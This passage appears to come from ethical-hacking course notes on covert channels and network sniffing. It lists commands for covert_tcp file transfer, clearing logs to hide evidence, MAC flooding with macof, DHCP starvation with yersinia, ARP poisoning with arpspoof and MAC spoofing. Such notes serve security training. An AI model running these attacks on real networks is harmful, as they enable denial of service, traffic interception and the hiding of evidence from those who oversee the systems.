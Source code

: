 1. compile the covert_tcp file

`cc -o covert_tcp covert_tcp.c`

2. Receiving Command

`./covert_tcp -source 192.168.1.108 -source_port 8888 -server -file [file_receive.txt]`

3. Send Command
	Make a text file to send
	`./covert_tcp -dest 192.168.1.100 -source 192.168.1.108 -source_port 9999 -dest_port 8888 -file [file_send.txt]`

######  Clear Logs to Hide Evidence
[CLEARING LOGS - Windows](simplenote://note/676ec02f-ed17-4ea0-8c7e-4c58d8b77c86)

---

## Module 08: Sniffing

###### Perform MAC flooding using macof

- `macof -i [interface] -n [no.of packets to be sent]`

- This command will start flooding the CAM table with random mac addresses.

- We can turn on wireshark and watch this random packets being sent from random mac addresses.

###### Perform DHCP Starvation attack using yersinia

- In DHCP starvation attack , an attacker floods the DHCP server by sending a large number of DHCP requests and uses all available IP addresses that DHCP server can issue. As a result the DHCP server cannot issue any more IP addresses , leading to a DOS attack.
- Type ``` yersinia -I ``` to start yersinia in interactive mode.
- To remove the notification window press any key
- Press h for help menu and press q to exit help menu.
- Press F2 to select DHCP mode.
- Press x to list available attack options
- select the options you want , (sending discover packets options is most widely used for DHCP starvation)
- Now yersinia will start sending the DHCP packets to all active machines of your LAN network.

###### Perform ARP Poisoning using arpspoof

- An ARP spoofing, also known as ARP poisoning, is a Man in the Middle (MitM) attack that allows attackers to intercept communication between network devices.
- We need to run arpspoof 2 times so that we can make the router believe that we are the target IP and in second attempt we make the target believe that we are the router IP.
- `arpspoof -i [interface] -t [target IP] [router default gateway IP]`

-  `arpspoof -i [interface] -t [router default gateway IP] [target IP]`

###### Spoof a mac address using mac changer(linux) , TMAC and SMAC(Windows)

`ifconfig eth0 down`
`macchanger -a eth0` to set a random vendor MAC address to the Network interface
`macchanger -r eth0` to set the random mac address
`macchanger -p eth0` to set the MAC address to its default value
At the end type `ifconfig eth0 up`
